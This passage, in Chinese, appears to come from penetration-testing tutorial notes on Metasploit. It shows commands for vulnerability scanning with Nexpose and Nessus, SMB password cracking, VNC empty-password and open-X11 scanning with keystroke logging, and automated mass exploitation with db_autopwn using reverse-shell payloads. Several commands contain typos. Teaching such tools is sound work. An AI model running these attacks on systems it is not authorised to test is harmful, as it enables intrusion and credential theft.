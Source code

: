 ```bash
msf > nexpose_scan xxx.xxx.xxx.xxx
# 扫描后，结果已存在数据库
msf > db_hosts -c address
msf > db_vulns
```


#### Nessus

默认端口为为8834，使用步骤与NeXpose相同👆

#### 专用漏洞扫描器

##### SMB Login check

对Windows主机的用户名和口令进行破解。
```bash
msf > use auxiliary/scanner/smb/smb_login
msf > show options
```

##### VNC空口令扫描

VNC即虚拟网络计算，提供远程访问系统桌面的服务。新版本的VNC不再允许使用VNC，并且绝大多数情况会一无所获。但渗透环境是多样的，以及一个优秀的渗透测试工程师会对目标采取千方百计的手段。  
```bash
msf > use auxiliary/scanner/vnc/vnc_none_auth
msf > show options
```

##### X11服务器扫描

```bash
msf > search x11
...
msf > use auxiliary/scanner/x11/open_x11

```
X系统用于处理包括鼠标和键盘在内的图形用户界面，我们可以结合Back|Track的xray工具对目标的键盘输入进行记录。


#### 利用扫描结果自动化攻击

使用Metasploit的autopwn工具，根据漏洞扫描器的结果自动进行渗透攻击。
```bash
msf > db_connect portgres:pass@127.0.0.1/msf3
msf > db_import your_nessues_export_file_path
msf > du_autopwn -e -t -r -x -p
...
```
使用db_autopwn命令后自动进行渗透攻击，其参数含义如下：
|argument|implication|
|--- | ----|
|-e|对所有目标发起进攻|
|-t|显示所有匹配的模块|
|-r|利用反弹shell的payload|
|-x|根据漏洞选择攻击模块|
|-p|根据开放端口选择攻击模块|

